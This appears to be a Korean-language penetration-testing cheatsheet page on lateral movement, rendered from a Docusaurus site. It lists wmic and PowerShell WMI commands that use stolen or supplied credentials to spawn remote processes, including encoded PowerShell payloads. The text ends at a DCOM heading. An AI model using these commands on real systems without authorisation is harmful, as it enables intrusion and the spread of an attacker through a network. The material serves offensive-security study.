

repository: naaamgi/my-docusaurus-page · page: cheatsheet/post-exploitation/lateral-movement/index.html · generator: docusaurus

---
sidebar_position: 2
---

# Lateral Movement

네트워크 내에서 다른 시스템으로 이동하는 기법입니다.

## WMI (Windows Management Instrumentation)

### wmic

```cmd
# 프로세스 생성
wmic /node:<RHOST> /user:<USERNAME> /password:<PASSWORD> process call create "cmd"
wmic /node:<RHOST> /user:<USERNAME> /password:<PASSWORD> process call create "powershell -enc <BASE64>"

# 원격 명령 실행
wmic /node:<RHOST> /user:<DOMAIN>\<USERNAME> /password:<PASSWORD> process call create "cmd.exe /c whoami > C:\output.txt"
```

### PowerShell WMI

```powershell
# 자격증명 저장
$username = '<USERNAME>'
$password = '<PASSWORD>'
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString

# 명령 실행
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "cmd" -ComputerName <RHOST> -Credential $credential

# Get-WmiObject
Get-WmiObject -Class Win32_Process -ComputerName <RHOST> -Credential $credential
```

## DCOM (Distributed Component Object Model)
